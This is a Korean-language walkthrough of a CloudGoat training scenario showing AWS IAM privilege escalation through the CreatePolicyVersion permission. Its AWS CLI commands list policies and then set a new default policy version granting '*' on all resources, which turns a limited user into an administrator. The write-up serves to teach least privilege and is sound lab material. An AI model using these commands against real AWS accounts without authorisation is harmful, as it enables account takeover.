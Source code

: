 ## 시나리오 리소스

- IAM * 1  

## 목표  
  
- 최소 권한 원칙의 설명  
- 위험 권한의 이해  
  
## 개요  
  
- player는 List* , GetPolicyVersion , CreatePolicyVersion의 권한을 가지고 있음  
- CreatePolicyVersion 권한을 통해 자신에게 정책을 할당하여 admin권한으로 상승하는 상황을 연출  
  
## 실행 명령어  
`./cloudgoat.py create iam_tutorial_CreatePolicyVersion`  
  
***  
  
### 1. 할당된 정책 확인  
IAM에게 할당된 권한을 확인하기 위해서는 먼저 정책의 이름과 ARN을 알아내야 합니다.    
`aws iam list-attached-user-policies --user-name [Profile Name] --profile player`    
  
해당 명령어를 통해 특정 IAM에게 할당된 정책을 확인할 수 있습니다.  

```  
{
	"AttachedPolicies":[
		{
			"PolicyName": "iam_policy_tutorial",
			"PolicyArn": "[PolicyArn]"
		}
	]
}
```  
  
할당된 정책의 이름과 Arn(Amazon Resource Name)이 보입니다.  


### 2. 정책의 권한 확인  
정책의 ARN을 확인하였으니 정책에게 할당된 자세한 권한까지 확인해야할 단계입니다.  
  
다음과 같은 명령어를 사용하여 정책에 할당된 권한까지 확인을 할 수 있습니다.  
  
`aws iam get-policy-version --policy-arn <Policy ARN> --version-id <Version ID>`  

```  
{
	"PolicyVersion": {
		"Document": {
			"Statement": [
				{
					"Action": [
						"iam:List*",
						"iam:GetPolicyVersion",
						"iam:CreatePolicyVersion"
					],
					"Effect": "Allow",
					"Resource": "*"
				}
			],
			"VersionId": "v1",
			"IsDefaultVersion": false,
			"CreateDate": "2023-11-14T09:21:36Z"
		}
	}
}
```  
  
확인결과 해당 정책에는 총 3가지의 정책이 부여되었습니다.  
1. `iam:List*`  
2. `iam:GetPolicyVersion`  
3. `CreatePolicyVersion`  
  
  
### 3. 정책 수정  
이중에서도 주목해야 할 것은 3번째의 `CreatePolicyVersion`입니다.  
  
IAM에게 할당된 정책은 수정이 가능하며 마치 Git처럼 버전관리가 가능합니다. `CreatePolicyVersion` 권한을 가지고 있다면 현재 자신이 가지고있는 정책을 수정할 수 있습니다.  
  
다음 명령어를 통해 진행해 보겠습니다.  

`aws iam create-policy-version \  
  --policy-arn <Policy ARN> \  
  --policy-document file://./scenairo/iam_tutorial_CreatePolicyVersion/policy.json \
  --set-as-default  
`  
  
다음과 같은 명령어를 통해 새로운 정책 버전을 생성하고 기본 정책 버전으로 설정할 수 있으며  
, 마지막에 `--set-as-default`옵션을 지정해주어 생성한 권한을 바로 적용해 주었습니다.  
  
```  
{
	"PolicyVersion":{
		"VersionId": "v3",
		"IsDefaultVersion": true,
		"CreateDate": "2023-11-14T10:56:30Z"
	}
}
```  
  
  
### 4. 마무리  
이후 정말로 설정되었는지 보겠습니다.  
  
위 사진에서 정책의 버전이 v3라고 되어있으니 v3버전의 정책을 확인해보도록 하겠습니다.  

```aws iam get-policy-version --policy-arn <Policy ARN> --version-id v3```  
  
```  
{
	"PolicyVersion":{
		"Document": {
			"Version": "2012-10-17",
			"Statement": [
				{
					"Effect": "Allow",
					"Action": "*",
					"Resource": "*"
				}
			]
		},
		"VersionId": "v3",
		"IsDefaultVersion": true,
		"CreateDate": "2023-11-14T10:56:30Z"
	}
}
```  
  
Admin권한으로 잘 수정된것을 확인할 수 있습니다.

